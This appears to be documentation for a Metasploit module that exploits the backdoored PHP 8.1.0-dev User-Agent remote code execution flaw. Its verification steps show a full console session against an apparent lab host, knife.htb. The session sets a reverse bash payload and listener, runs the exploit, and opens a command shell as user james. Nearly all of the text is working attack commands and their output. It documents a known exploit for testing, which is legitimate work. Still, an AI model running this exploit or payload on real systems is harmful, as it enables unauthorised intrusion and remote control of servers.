 ## Description
Exploits a backdoor RCE in PHP version 8.1.0-dev

## Software Link
https://github.com/phpdaily/php/tree/master/8.1-dev/

## Verification Steps:
```
msf6 > use exploit/multi/http/php_useragentt_rce 
[*] Using configured payload cmd/unix/reverse_bash
msf6 exploit(multi/http/php_useragentt_rce) > set rhosts knife.htb
rhosts => knife.htb
msf6 exploit(multi/http/php_useragentt_rce) > set lhost tun0
lhost => tun0
msf6 exploit(multi/http/php_useragentt_rce) > set payload cmd/unix/reverse_bash
payload => cmd/unix/reverse_bash
msf6 exploit(multi/http/php_useragentt_rce) > run

[*] Started reverse TCP handler on 10.10.14.108:4444 
[+] Sending shellcode
[*] Command shell session 7 opened (10.10.14.108:4444 -> 10.10.10.242:35572) at 2021-08-23 18:21:47 +0530


id
uid=1000(james) gid=1000(james) groups=1000(james)
```

